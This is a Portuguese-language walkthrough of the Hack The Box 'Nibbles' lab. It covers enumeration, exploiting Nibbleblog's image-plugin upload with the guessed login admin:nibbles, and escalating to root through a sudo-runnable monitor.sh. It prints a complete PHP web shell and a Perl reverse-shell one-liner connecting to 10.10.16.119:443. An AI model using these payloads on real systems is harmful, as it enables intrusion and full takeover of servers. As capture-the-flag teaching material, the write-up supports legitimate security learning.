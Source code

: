 ```yaml
---
title: "Hack The Box - Nibbles"
tags: [Linux,Easy,Nibbleblog,Webshell,Metasploit Framework,Meterpreter]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/121>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos 2 portas abertas no servidor

> Porta 22 -> Servidor SSH, dificilmente a exploração vai ser por aqui

> Porta 80 -> Servidor Web.

## Enumeração da porta 80

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_web.png)

### Verificamos o código fonte da página

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_blog.png)

### Acessamos a página

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_blog1.png)

### Procuramos por exploits para Nibbleblog

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_exp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_exp1.png)

### Lendo o código do exploit encontramos esse site, pois não iremos utilizar Metasploit Framework agora

 > http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_exp2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_exp3.png)

# Exploração

## Verificamos como exploramos essa falha manualmente

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_exp4.png)

### Essa parte é meio na adivinhação, temos que descobrir o login e senha da aplicação

> admin:nibbles

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_login.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_login1.png)

### Vamos até `Plugins` - `My Images`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_exp5.png)

### Upamos nosso WebShell

```
<?php
echo "<form action='' method='post'>
   <input type='text' name='c' value='' size='60'/>
   <input type='submit' />
   </form>";
if (isset($_POST['c'])){
   if(function_exists('shell_exec')) {
   $c=$_POST['c'];
      echo "<pre>".shell_exec("$c")."</pre>";
   }
}
?>
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Niblles_shell2.png)

### Verificamos que conseguimos mesmo com os erros que deram

> nibbleblog/content/private/plugins/my_image/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell2.png)

> perl -e 'use Socket;$i="10.10.16.119";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Pegamos um shell na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell4.png)

# Escalação de privilégio

### Verificamos o `sudo -l`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell5.png)

#### Verificamos que podemos rodar o monitor.sh como root sem ser root

#### Então, criamos um `monitor.sh` pra nos dar um reverse shell

> perl -e 'use Socket;$i="10.10.16.119";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell6.png)

### Executamos e ganhamos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_shell7.png)

## Pegamos a flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_user.png)

# Agora vamos explorar com o Metasploit Framework

### Pesquisamos pelo exploit no msfconsole

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_msf.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_msf1.png)

### Exploramos e ganhamos ums shell, a partir dai é a mesma coisa que já foi explicado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_msf2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nibbles/Nibbles_msf3.png)